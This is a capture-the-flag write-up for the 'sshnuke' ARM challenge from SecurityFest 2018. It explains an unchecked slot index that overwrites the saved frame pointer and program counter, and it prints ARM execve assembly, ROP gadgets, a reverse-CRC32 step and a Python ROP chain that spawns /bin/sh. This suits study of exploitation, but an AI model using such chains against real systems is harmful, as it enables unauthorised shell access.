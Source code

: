 # sshnuke
This is ARM ROP task.

![](/images/SecurityFestCTF2018/sshnuke/01.png)

For comfortable debugging I was using Azeria-Lab-v1 VM from https://azeria-labs.com/arm-lab-vm/


Vulnerability is in store function - no check for max slot value, slots array size = 12 => overflow. 

slots[13] = bp (frame pointer, analogue of ebp) 

slots[14] = pc (program counter, analogue of eip)

Same vulnerability in read_store function => can leak, but ASLR was off, so leak was not needed.


On ARM syscall execve got following structure:

```
syscall execve("/bin/sh", argv, env) => execve("/bin/sh", 0, 0)

add r0, 0x099014   ; /bin/sh addr
mov r1, #0
mov r2, #0
mov r7, #11        ; number of execve() syscall 
svc #0             ; syscall
```

0x099014 - is address where login string is placed:

![](/images/SecurityFestCTF2018/sshnuke/02.png)


Using ROPgadget I found required gadgets to make syscall execve("/bin/sh", 0, 0). 

There was no "pop {r2, pc}" gadget, so I used:

pop {r0, r4, pc}
mov r2, r4 ; blx r3

"blx r3" instruction will brunch at an address specified by a register r3 (analogue of call).


Also there are calculated crc32 hash of user input string in _do_store function.

![](/images/SecurityFestCTF2018/sshnuke/03.png)

So we have to do reverse crc32. I used script from https://github.com/theonlypwner/crc32/blob/master/crc32.py


Final rop:

```python
login('/bin/sh\x00')

store_data(14, crc32_reverse(pop_r1_pc), True, False)
store_data(15, crc32_reverse(0), True, True)
store_data(16, crc32_reverse(pop_r7_pc), True, True)
store_data(17, crc32_reverse(11), True, True)
store_data(18, crc32_reverse(pop_r3_pc), True, True)
store_data(19, crc32_reverse(svc_0), True, True)  
store_data(20, crc32_reverse(pop_r0_r4_pc), True, True)
store_data(21, crc32_reverse(login_str_addr), True, True)
store_data(22, crc32_reverse(0), True, True)
store_data(23, crc32_reverse(mov_r4_r2_blx_r3), False, True)
```

![](/images/SecurityFestCTF2018/sshnuke/04.png)
 



